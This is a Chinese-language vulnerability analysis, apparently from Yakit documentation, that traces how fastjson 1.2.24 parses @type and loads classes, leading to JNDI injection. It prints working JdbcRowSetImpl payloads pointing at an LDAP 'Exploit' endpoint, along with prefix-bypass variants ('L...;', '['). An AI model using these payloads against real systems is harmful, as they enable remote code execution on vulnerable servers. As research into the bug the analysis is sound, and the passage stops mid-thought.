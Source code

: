 解析流程是先创建JSONScanner（词法分析器）
当遇到key之前的"时，检查symbols：$ref和@type

![](/img/products/yakit/json-symbols.png)

这里的ref是value，即com.sun.rowset.JdbcRowSetImpl，然后通过类名加载对应类

![](/img/products/yakit/json-ref.png)

这里除了直接用类名，还有几种变形payload：`Lcom.sun.rowset.JdbcRowSetImpl;、LLcom.sun.rowset.JdbcRowSetImpl;;、[com.sun.rowset.JdbcRowSetImpl`

原因是`TypeUtils.loadClass`方法中对类名做了处理，如图，当className是`L`开头;结尾，直接去掉（注意这里是用的递归，所以在类名前加多少L都可以）（这么做是为了兼容JNI字段描述符）

![](/img/products/yakit/json-typeUtils-loadClass.png)

如果是[开头，也是直接忽略掉，然后加载类，但返回的是`com.sun.rowset.JdbcRowSetImpl`类型数组的class

类加载成功后，根据类型，获取deserializer(不妨叫它反序列化器吧)，开始“反序列化”

![](/img/products/yakit/json-jdbcRowSetImpl.png)

反序列化过程在fastjson-    
1.2.24.jar!/com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.class#deserialze方法中

大概流程就是，创建一个空对象，然后调用setXxx方法，为对象属性赋值，payload中有两个属性`dataSourceName`和`autoCommit`，`com.sun.rowset.JdbcRowSetImpl`的`setAutoCommit`方法会对`dataSourceName`进行lookup（相关代码在com/sun/rowset/JdbcRowSetImpl.java），导致jndi或rmi注入

![](/img/products/yakit/json-setXxx.png)

![](/img/products/yakit/json-setXxx-1.png)

再看看，如果类名是[开头的payload

```JSON
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{, "dataSourceName":"ldap://127.0.0.1:1389/Exploit", "autoCommit":true}
```
`[com.sun.rowset.JdbcRowSetImpl`加载时得到的是数组类型

关键是如何在反序列化时，将属性值赋值给JdbcRowSetImpl对象，所以重点关注词法分析器如何解析json的

在数组反序列化器中调用了parseArray方法，根据成员类型，再反序列化`com.sun.rowset.JdbcRowSetImpl`

如图，获取到类名后，调用nextToken(16)，这里的16标志着期待下一个字符是`}`,结尾（但实际上下一个字符是`[`）

![](/img/products/yakit/json-nextToken.png)

当匹配失败后，可能是为了容错，还会继续调用nextToken()方法，匹配到[，token设置为14，在数组反序列化器中调用了nextToken(12)，匹配了`{`，然后调用scanSymbol方法，但现指向字符是`,`，所以得到的key是null，进入下一次循环，得到key：dataSourceName

实际测试去掉这个`,`:`{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}`依然有效

调试时发现payload还可以变形
